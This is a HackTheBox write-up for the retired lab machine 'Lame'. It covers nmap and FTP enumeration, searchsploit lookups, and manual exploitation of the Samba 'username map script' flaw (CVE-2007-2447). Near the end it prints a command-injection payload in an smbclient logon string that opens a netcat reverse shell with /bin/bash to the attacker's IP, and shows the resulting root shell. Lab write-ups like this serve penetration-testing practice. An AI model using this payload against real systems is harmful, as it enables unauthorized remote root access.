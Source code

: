```yaml
---
layout: post
title:  "HackTheBox - Lame Writeup"
categories: [HackTheBox]
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Lame" (10.10.10.3) on the platform HackTheBox. HackTheBox is a pentetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

The first thing we're going to do is run an NMAP scan using the following command `nmap -sV -sC -Pn -oX /tmp/webmap/lame.xml 10.10.10.3` if you're wondering about the last flag `-oX` that is allowing me to output the report into an XML format, this is because I use webmap (as you can see in the /tmp/webmap) which is an awesome tool that allows me some visual aids for a box/network!

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ nmap -sV -sC -Pn -oX /tmp/webmap/lame.xml 10.10.10.3

Starting Nmap 7.60 ( https://nmap.org ) at 2019-01-28 03:04 GMT
Nmap scan report for 10.10.10.3
Host is up (0.026s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-01-24T19:05:12-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

As you can see, we have a few ports open here, however, ftp grabs my attention straight away as we have a line `ftp-anon: Anonymous FTP login allowed (FTP code 230)` this basically means we can login with the username `anonymous` and pretty much any password, so let's try logging in with FTP and seeing what we can find.

### FTP

In order to login anonymously we can just use `ftp 10.10.10.3` then we will be prompted for a username, it is important you use `anonymous` as the username and you can just press enter for the password.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:linxz): anonymous
331 Please specify the password.
Password:
230 Login successful.
```  

As you can see we can login just fine with this, now let's take a look around and try to find some files, etc. Firslty we'll do a pwd to see where we are on the file system and see if we have any files in our current directory.

```
ftp>
ftp> pwd
257 "/"
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

So, looks like this is pretty empty so I guess this is not the correct attack route I suppose. So we'll focus on the Samba side of things now, it is worth noting, that vsFTPD 2.3.4 has a backdoor vulnerability, I did not mention this before but if you use `searchsploit` and `vsftpd 2.3.4` you will see the vulnerability I am talking about.

```
linxz@linxzsec:/opt/exploitdb$ ./searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/opt/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                             | exploits/unix/remote/17491.rb
------------------------------------------------------------------------------------------------------------------- ----------------------------------
```

However, what we just attempted is basically doing exactly what the Metasploit module would do so we don't need to use the Metasploit module. The point is, it is always a good habit to do a Searchsploit on the versions of software.

### Samba

We know that Samba is running so let's try to attack this - as I mentioned it is always a good idea to use Searchsploit on version numbers you get, in this case from our nmap scan we know that the version is `3.0.20-Debian` so we'll do a Searchsploit on this, dropping the `debian` though else Searchsploit might not find it.

```
linxz@linxzsec:/opt/exploitdb$ ./searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/opt/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                   | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                              | exploits/linux/remote/7701.txt
```

There also appears to be a Remote Heap Overflow here however, we won't try that unless the Username map script does not work, this is because it will be a little harder to actually exploit so we'll stick with the "Username Map Script" exploit first. Interetingly, I already knew about this exploit as I [made a post](https://linxz.co.uk/vulnerabilities/2018/11/14/Samba-username-map-script.html) about it previously.

## Exploitation

So, it looks like this box is vulnerable to CVE2007-2447. Let's exploit this, however, we're not going to use Metasploit as this is really easy to exploit manually and will help us with concepts such as reverse shells & just getting used to the exploitation process if we don't have Metasploit available.

Firstly we need to see what shares are available, we can do this using `smbclient -L //10.10.10.3/`

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ smbclient -L //10.10.10.3/tmp
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\linxz's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

As you can see in the above, we have `opt` & `tmp` let's try and connect to `tmp` with an anonymous login, in order to do this you can just use `smblclient //10.10.10.3/tmp` and hit enter to send a blank password.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ smbclient //10.10.10.3/tmp
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\linxz's password:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \>
```

Now that we've logged into the share, we want to actually exploit this vulnerability, if you want to understand how it works you can go and read my post that I linked earlier as I'm not going to explain the exploit here.

So firstly we're going to use netcat to create a listener on our device, this can be done with `nc -nvlp 4444` once we have the listener running we're going to send the following payload into the device.

```
smb: \> logon "./=`nohup nc 10.10.14.2 4444 -e /bin/bash`"
Password:
```

If you hit enter at the password prompt you should then see a connection back into your listener, you now have a shell! It is time for privilege escalation! Well, usually it would be time for privilege escalation however we actually get a root account straight away on this box so we don't need to do any kind of privilege escalation.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ netcat -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.10.3 43316 received!
whoami
root
```

Now we can just go and get the user flag from the users desktop and the root flag, submit them and we're done with the box! As I said, if you'd like to understand how the exploit works a little more you can go and read my post on it!
